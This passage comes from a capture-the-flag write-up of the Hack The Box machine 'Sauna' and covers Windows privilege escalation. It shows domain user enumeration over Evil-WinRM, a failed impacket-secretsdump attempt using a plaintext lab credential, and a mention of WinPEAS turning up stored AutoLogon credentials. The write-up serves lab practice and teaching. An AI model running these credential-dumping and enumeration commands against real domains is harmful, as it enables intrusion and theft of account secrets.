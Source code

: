 Now lets grab the first flag:

![user_flag.png](../assets/sauna_assets/user_flag.png)

### Privilege Escalation

Good practice when you initially land on a domain connected machine is to run the `net users /domain` command, to see if you've missed any valid usernames along the way:

```text
*Evil-WinRM* PS C:\Users\FSmith\Desktop> net users /domain

User accounts for \\

-------------------------------------------------------------------------------
Administrator            FSmith                   Guest
HSmith                   krbtgt                   svc_loanmgr
```

I'll go ahead and add Administrator and svc_loanmgr to our users.txt list

Another good practice is to always use valid creds to see if you can perform a secrets-dump against the domain using found credentials. In this case no luck with that for fsmith, and we'll need to keep enumerating a bit more:

```text
┌──(ryan㉿kali)-[~/HTB/Sauna]
└─$ impacket-secretsdump EGOTISTICAL-BANK.LOCAL/fsmith:Thestrokes23@10.10.10.175                  
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
[-] DRSR SessionError: code: 0x20f7 - ERROR_DS_DRA_BAD_DN - The distinguished name specified for this replication operation is invalid.
[*] Something went wrong with the DRSUAPI approach. Try again with -use-vss parameter
[*] Cleaning up...
```

After uploading WinPEAS to the machine and running it, we find some stored AutoLogon credentials for svc_loanmgr:
